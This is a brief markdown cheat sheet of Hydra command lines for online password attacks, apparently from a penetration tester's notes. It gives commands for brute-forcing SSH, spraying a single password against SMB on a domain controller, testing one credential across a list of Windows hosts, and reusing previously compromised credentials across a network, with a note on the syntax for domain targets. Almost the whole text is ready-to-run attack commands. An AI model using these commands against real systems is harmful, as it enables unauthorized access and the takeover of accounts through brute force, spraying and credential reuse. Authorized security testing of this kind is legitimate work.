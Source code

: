 # Hydra Examples

Single user, multiple passwords targeting SSH on port 2222:
```
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
Spray targeting SMB on default port with a single thread:
```
hydra -L users.txt -p password1 -t 1 smb://dc01.domain.local
```
Try a specific username and password across the network:
```
hydra -l bwayne -p P@ssw0rd1! -M windows-hosts.txt smb2
```
Use previously compromised credentials across the network:
```
hydra -C creds.txt -M windows-hosts.txt smb2
```

## Domain Usage

For domain users, target the domain. In order for this attack to work, the domain MUST be specified and the curly braces ``{}`` are required. Additionally, eventhough it is a Domain the option requires ``workgroup:{DOMAINGOESHERE}``

``hydra -C creds.txt -m dc01 smb2 -m workgroup:{DOMAINGOESHERE}``
